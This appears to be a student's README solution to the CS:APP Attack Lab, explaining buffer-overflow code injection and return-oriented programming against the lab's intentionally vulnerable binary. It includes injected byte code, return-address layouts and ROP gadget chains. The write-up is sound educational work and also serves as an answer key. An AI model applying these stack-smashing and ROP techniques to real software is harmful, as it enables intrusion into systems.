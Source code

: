 # Attack Lab 

## Part I: Code Injection Attacks

### Intro

The following is the assembly code for `getbuf()`:

```assembly
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	  sub    $0x28,%rsp
   0x00000000004017ac <+4>:	  mov    %rsp,%rdi
   0x00000000004017af <+7>:	  callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq
```



![](./figures/0.jpg)

Here I use orange color to indicate the return address, and blue to show the exploit code part. Colorless means that part is meaningless.

![](./figures/1.jpg)

As is shown in figure 1, the target of this lab is to modify the return address in `getbuf()`, so that the program would not return to `test()` normally. Figure 1.(a) and 1.(b) apply to all the levels in Part I. So we will mainly focus on what it looks after executing `getbuf()` and get ready to return.

### Level 1

```assembly
Dump of assembler code for function touch1:
   0x00000000004017c0 <+0>:	  sub    $0x8,%rsp
```

Our first mission is just changing the return address of `getbuf`. To accomplish that, we need to know the beginning address of touch1, which is `0x4017c0`. The stack diagram looks like follows:

![](./figures/2.jpg)

The first 40 hex values in our input does not matter. We just need to ensure the 41st - 43rd values represent the correct address. As a result of little-endian byte ordering, the address is encoded as `c0 17 40`. [touch1.txt](./touch1.txt) is a sample input.  

### Level 2

```assembly
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:	  sub    $0x8,%rsp
   
   # cookie: 0x59b997fa
```

Unlike level 1 where we simply modify the return address, we need to execute some exploit code in level 2. We can directly use the allocated stack space to store the exploit code. The procedure involves two returns: when `getbuf()` returns, it will jump to the current stack space to execute some byte code. After that, the byte code contains another `ret` instruction and the program counter will be redirected to `touch2()`. So there are two return addresses here, one is within the stack space and another is `touch2()`'s address, just as shown in figure 3.a:

![](./figures/3.jpg)

In our exploit code, we need to assign value to `%rdi`. Besides that, don't forget to subtract `%rsp`. After the first `ret` instruction, `%rsp` will automatically add by 0x8. Assume that our second return address is stored at address `0x5561dc98` as figure 3 (b) shows, then we need to subtract `%rsp` by 0x10.  

So we need the following byte code:

```assembly
   0:	48 83 ec 10          	sub    $0x10,%rsp
   4:	bf fa 97 b9 59       	mov    $0x59b997fa,%edi
   9:	c3                   	retq   
```

and the stack diagram is shown in figure 3 (c). [touch2.txt](./touch2.txt) is a samput input.

### Level 3

```assembly
Dump of assembler code for function touch3:
   0x00000000004018fa <+0>:	  push   %rbx
```

Level 3 is somewhat like level 2. The difference is switch from numerical value to a string. The string should be stored somewhere. As mentioned in the lab writeup, how can we protect the string from being overwritten by following functions (`hexmatch()` and `strnsmp()`)? One way is to store the string somewhere deep (e.g., `-0x100(%rsp)`) but it is somewhat complicated and the corresponding byte code would exceed the allocated stack space. Another way is just store the string above `%rsp`. More specifically, rsp2 as shown in figure 4 (a): 

![](./figures/4.jpg)

As the function get executed, `%rsp` just goes lower and lower. So the higher stack will be safe (as long as `hexmatch()` and `strnsmp()` don't contain code injection attacks).  

The byte code is as follows:

```assembly
   0:	48 83 ec 30          	sub    $0x30,%rsp
   4:	48 c7 c7 90 dc 61 55 	mov    $0x5561dc90,%rdi
   b:	c3                   	retq   
```

the stack diagram is shown in figure 4 (b). [touch3.txt](./touch3.txt) is a sample input.

## Part II: Return-Oriented Programming

### Level 2

In part II, since the stack positions differ from one run to another, we cannot set `rsp` to point to the our own exploit code. Instead, we need to find positions in the 'gadget farm'.  

![](./figures/5.jpg)

We can use `x/72bx` to get the byte code between `start_farm` and `mid_farm`. Fortunately, there is not much code, so we could find the gadgets easily. As shown in figure 5, there are two gadgets that could be useful: 

```assembly
58          popq %rax
90          nop
c3          ret

48 89 c7    movq %rax,%rdi
90          nop
c3          ret
```

Therefore, we need to store three bytes at stack pointer: the address of the first gadget, the cookie data to be popped, and the address of the second gadget. Note that both `ret` and `popq` would increase `rsp`,  so we need to use the upward space. [rtouch2.txt](./rtouch2.txt) is a sample input and here is the stack diagram:  

![](./figures/6.jpg)

### Level 3

![](./figures/7.jpg)

By examing the byte code within gadget farm (`x/296bx 0x401994`), we can extract some executable byte code as shown in figure 7. 

Some useful instructions are as follows:

```assembly
0x401a06: 48 89 e0 c3 
          movq %rsp,%rax
          ret
          
0x4019c5: 48 89 c7 90 c3
          movq %rax,%rdi
          nop
          ret
          
0x4019cc: 58 90 c3
					popq %rax
					nop
					ret
					
0x401a42: 89 c2 84 c0 c3
          movl %eax,%edx
          testb %al
          ret
          
0x401a69: 89 d1 08 db c3
          movl %edx,%ecx
          orb %bl
          ret
          
0x401a27: 89 ce 38 c0 c3
          movl %ecx,%esi
          cmpb %al
          ret
          
0x4019d6: #add_xy()
          lea (%rdi,%rsi,1),%rax
          retq
```

By looking at *farm.c*, we can find a `add_xy()` function after `mid_farm()`. It plays a critical role to calculate the address of our cookie string. 

The procedure is as follows:

```assembly
# set the base pointer to %rdi
movq %rsp,%rax
movq %rax,%rdi

# set the offset to %rsi
popq %rax					# rax = 0x48
movl %eax,%edx
movl %edx,%ecx
movl %ecx,%esi

# add offset to base pointer to get the correct address
lea (%rdi,%rsi,1),%rax
movq %rax,%rdi

# call touch3()
```

[rtouch3.txt](./rtouch3.txt) is a sample input.

Cheers!